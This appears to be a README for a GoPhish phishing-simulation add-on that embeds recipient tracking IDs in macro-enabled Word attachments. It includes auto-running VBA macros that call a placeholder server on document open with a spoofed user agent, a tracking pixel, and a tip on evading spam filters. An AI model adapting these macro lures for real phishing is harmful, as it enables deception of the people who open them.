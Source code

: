 # gophish-macro-attachment
Exim transport_filter python script that puts a user's RID value where a macro can see it for macro phishing

# Usage
1. Requires Python 3.6 and [olefile](https://pypi.org/project/olefile/)
2. Install exim (listen on loopback); then add this script's path into `exim.conf` as a `transport_filter` for the `remote_smtp` transport, see [here](https://www.exim.org/exim-html-current/doc/html/spec_html/ch-generic_options_for_transports.html) for more information.
3. Set up a GoPhish sending profile that points at this local Exim instance
4. Create an email attachment & template per the following

## Email template
The email template can be whatever you want, but must include the following exactly somewhere in the body: 

`<!-- RID: {{.RId}} -->`

This is how the script knows the user's RID. It will be removed by the script, so don't worry if you're sending a plain text email.

Next, add an attachment created as follows:

### Type 1 (OLE document format)

N.B.: The drawback to this form is that it does not support "Clicked link" status; you will only know if the user enabled macros.
However, it is simpler and is probably less suspicious (to spam filters, at least). 

1. Create a Word Document and add a macro like the following under ThisDocument: 

```
Private Sub Document_Open()
  Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")
  URL = "http://YourGoPhishServer.com/?rid=" & Replace(ActiveDocument.BuiltInDocumentProperties("Comments"),".","")
  objHTTP.Open "POST", URL, False
  objHTTP.setRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)"
  objHTTP.send("")
End Sub
```
2. Add whatever enticing content you want to the body. 
3. Save in Word 97-2003 format (.doc)
4. Right click the file in Explorer, choose Properties, click the Details tab
5. Set "Comments" to `{{.RidPlaceholder}}`

### Type 2 (MHT/MHTML format)

This is slightly more complex to create and more suspicious; however, it will show you if the user opened the document without enabling macros.

1. Create a Word Document, save as .MHT (Single file webpage)
2. Add whatever enticing content you'd like to the document.
3. Add a macro like the following under ThisDocument: 
```
Private Sub Document_Open()
  Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")
  URL = "http://YourGoPhishServer.com/?rid=" & ActiveDocument.BuiltInDocumentProperties("Author")
  objHTTP.Open "POST", URL, False
  objHTTP.setRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)"
  objHTTP.send("")
End Sub
```
4. Save
5. Open the .MHT file in Notepad/Notepad++
6. Look for the following lines near the top: 
```
 <o:DocumentProperties>
  <o:Author>John</o:Author>
  <o:LastAuthor>John</o:LastAuthor>
```
7. Replace the "Author" value with `{{.RIDPLACEHOLDER}}` (case-sensitive)
8. Look for the end of the body of the document (e.g. `</body>`)
9. Type the following right before the `</div></body>` portion:
```
<img src=3D"http://YourGoPhishServer/?rid=3D{{.RIDPLACEHOLDER}}" height=3D1 width=3D1/>
```

N.B. The "3D" parts are VERY IMPORTANT to this working properly. It's part of how the document is encoded/escaped. 
I would suggest copying it exactly as shown and just modifying the server URL.

10. Attach this file with the .MHT extension - it will be renamed to .doc by the script.


Have fun!
